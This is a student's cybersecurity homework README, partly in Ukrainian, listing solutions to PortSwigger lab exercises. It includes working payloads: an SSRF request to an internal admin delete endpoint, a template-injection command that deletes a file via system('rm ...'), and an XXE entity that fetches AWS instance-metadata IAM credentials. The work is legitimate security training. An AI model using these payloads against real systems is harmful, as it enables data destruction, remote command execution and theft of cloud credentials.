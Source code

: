 # cybersecurity_homework11
Attacks on the server

Зробіть наступні лабораторні роботи.

1)(https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost) 
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-27-28.jpg

2)(https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-28-29.jpg 
( payload : http:192.168.0.251:8080/admin/delete?username=carlos)

3)(https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-28-36.jpg  
( payload: <%=+system("rm+/home/carlos/morale.txt")+%> )

Обов'язково разом зі скріншотом виконаної лабораторної надсилайте пейлоад або послідовність дій, які привели до успішної компроментації.

4) (https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf )
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-28-43.jpg
payload: ( <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE random [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&ssrf;</productId><storeId>1</storeId></stockCheck>)

